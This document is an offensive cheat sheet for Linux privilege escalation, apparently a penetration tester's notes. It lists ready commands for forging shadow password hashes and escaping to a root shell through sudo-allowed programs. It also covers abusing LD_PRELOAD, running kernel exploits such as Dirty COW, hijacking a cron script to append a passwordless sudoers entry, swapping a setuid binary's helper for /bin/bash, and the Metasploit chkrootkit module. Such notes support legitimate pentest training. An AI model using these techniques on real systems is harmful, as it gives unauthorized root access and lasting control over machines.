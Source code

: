 # Weak Permissions

- find / -not -type l -perm -o+w (writable files for every user on the system)
- use openssl to generate encrypted linux passwords (can be substituted in shadow file)
	- openssl passwd -<1/2/3/4/5/6> -salt abc <cleartext_password> : This will generate the password hash then use a text editor to modify the /etc/shadow file and passwords
	- -1 means weakest algorithm, -6 means strongest

# Sudo Misconfig

- sudo -l : programs that current user can run as root
- eg. man > sudo man cat > type !/bin/bash > opens shell as root

  ![privesc](./images/linprivesc-01.png)
  ![privesc](./images/linprivesc-02.png)
  ￼
- if LD_PRELOAD env in "sudo -l" output, 

  ![privesc](./images/linprivesc-03.png)
  ![privesc](./images/linprivesc-04.png)
  ![privesc](./images/linprivesc-05.png)
  ![privesc](./images/linprivesc-06.png)
      ￼

# Kernel Exploit

- https://github.com/mzet-/linux-exploit-suggester
- upload les.sh to target using meterpreter and run the file
- eg. dirtycow exploit creates a new user with escalated perms with a password

# Cron jobs

- look for a script file (.sh) which normal user van edit and can run as root.
- printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
- this will create a script which will allow student user to run sudo without password

# Exploiting setuid programs

- setuid bit looks like:

  ![privesc](./images/linprivesc-07.png)
  
- find files:  find / -user root -perm -4000 -exec ls -ldb {} \;
- another way to find file: find / -perm -u=s -type f 2>/dev/null
- this means this binary along with all child processes run with root privs
- investigate binary with - strings ./welcome
- since this binary is calling greetings binary, we delete the ./greetings binary
- and replace with /bin/bash binary
- this will run /bin/bash as root
- run the welcome binary, it should give root shell

# Rootkit scanner

- check for any scripts running that are running chkrootkit as root in "ps aux"
- chkrootkit v0.49 is vulnerable to privesc - exploit/unix/local/chkrootkit
- set CHKROOTKIT /bin/chkrootkit 

  ![privesc](./images/linprivesc-08.png)
  ![privesc](./images/linprivesc-09.png)
